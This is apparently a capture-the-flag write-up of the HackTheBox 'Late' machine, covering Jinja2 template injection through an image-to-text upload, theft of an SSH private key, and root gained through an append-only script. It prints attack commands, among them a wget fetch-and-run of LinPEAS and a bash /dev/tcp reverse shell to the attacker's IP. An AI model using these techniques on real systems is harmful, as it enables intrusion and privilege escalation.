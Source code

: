 ```yaml
---
layout: post
title: HackTheBox - Late
category: HackTheBox
tags: Machines Flask Linux Web
date: 2022-07-06 11:15 +0300
---
```


![Machine info card](/assets/hackthebox/late/Late.png){:height="414px" width="615px"}

# Configuration

If you're using your own machine like me, you have to access HTB network via `OpenVPN`:

```zsh
sudo openvpn lab_access_file.ovpn
```

It is very useful to append `/etc/hosts/` with ip address of the machine. It is useful to get subdomains and to not memorize the address every time.

```zsh
echo '10.10.11.156  late.htb' | sudo tee -a /etc/hosts
```

# Reconnaissance

## nmap scan

```zsh
nmap -sCV -oN nmap_scan late.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We see basic `ssh` and `http` here, let's explore the web application.

## Web application

![Web application](/assets/hackthebox/late/webapp.png)

In web apps, we can use `whatweb` tool to look which technologies are used in app.
```zsh
whatweb late.htb
```

```
http://late.htb [200 OK] Bootstrap[3.0.0], Country[RESERVED][ZZ], Email[#,support@late.htb], Google-API[ajax/libs/jquery/1.10.2/jquery.min.js], HTML5, HTTPServer[Ubuntu Linux][nginx/1.14.0 (Ubuntu)], IP[10.10.11.156], JQuery[1.10.2], Meta-Author[Sergey Pozhilov (GetTemplate.com)], Script, Title[Late - Best online image tools], nginx[1.14.0]
```

We have a basic home page and a contact page with nothing interesting. Also, on home page we have a link to `images.late.htb`, lets modify our `/etc/hosts` with that address to look at it:

> 10.10.11.156  late.htb images.late.htb

Now we navigate to images.late.htb:

![Web application subdomain](/assets/hackthebox/late/subdomain.png)

It is an image to text converter, we can see an `upload form` here, let's check how it works. It allows only `png` or `jpg` file formats. Generate some text converted into image, I used [this site](https://www.345tool.com/converter/text-to-image-converter) here. Then, upload the image and it will return result in a txt file.

![Flask app results](/assets/hackthebox/late/flask_app_results.png)

# user.txt

## Enumeration

Note that it is a `Flask` application, it means `Python` is used here. I've found that Flask uses `Jinja2`, which allows us to try python code injections. Let's try basic injection by putting `{% raw %}{{7*'7'}}{% endraw %}` into image.

![Code injection](/assets/hackthebox/late/code_injection.png)

It works! Now we have to test and prepare our payload... 

## Exploit

After 2 hours I found right font and font size, I think it's not worth for time I spent, seriously... Use Verdana font with size 24, it worked for me. At first, we try to read `/etc/passwd`.

![etc passwd](/assets/hackthebox/late/etc_passwd.png)

We can see an interesting line here:

```
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
```

Some user has a home directory and can log in. We can try to find `ssh` private key.

![We got a private key](/assets/hackthebox/late/private_key.png)

We're lucky! Now we copy key to file and log in! Don't forget to change file permissions.

```zsh
chmod 600 id_rsa
ssh -i id_rsa svc_acc@late.htb
cat user.txt
```

# root.txt

## Explore for privilige escalation

Let's upload [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) and try to get possible privilege escalation vectors. On our machine we use `Python` to start a simple web server.

```zsh
python -m http.server 8000
```

On victim machine we use `wget` to download the script. Then, we change permissions to a file to make it executable and run it.

```bash
wget http://10.10.16.14:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

![Possible privesc vector](/assets/hackthebox/late/priv_esc_vector.png)

LinPEAS has found an interesting file for us, let's read it and understand what it does.

```bash
cat /usr/local/sbin/ssh-alert.sh
```

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

We can see that the script runs every time when a ssh connection is established. The file is not writtable, but if we list attributes of it, we will see that we can `append` to the file.

```bash
lsattr ssh-alert.sh
```

```
-----a--------e--- ssh-alert.sh
```

We have to check who runs the script. When we just connected via ssh, we listed the home directory and saw an executable called `pspy`, this is a tool for `monitor` processes without root privileges. Execute the tool and open another terminal, then connect again via ssh, you will see the events.

![Monitor processes](/assets/hackthebox/late/monitor_processes.png)

We can see that ssh-alert.sh runs with `UID 0`, which means that file executes by root, luckly for us! 

## Privilege escalation

Now we know that the file is executed by root, so we can do a lot of things, for example, get a reverse shell. Let's append a simple bash reverse shell from [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp). Note that we can't directly write in the file. Then we check if everything is good.

```bash
echo '/bin/bash -i >& /dev/tcp/10.10.16.14/6185 0>&1' >> /usr/local/sbin/ssh-alert.sh 
cat /usr/local/ssh-alert.sh
```

Open an another terminal to set up a listener:

```zsh
nc -lnvp 6185
```

Finally, connect via ssh to trigger the script.

```zsh
ssh -i id_rsa svc_acc@late.htb
```

Then, on our listener terminal we will get the connection from `root`! We got it!

![We got a root](/assets/hackthebox/late/root.png)

# Conclusion

It was a very interesting box, but searching for a font and a font size was terrible, really. It was cool to learn about Flask and pspy.

Thank you for reading, I hope it was useful for you ❤️
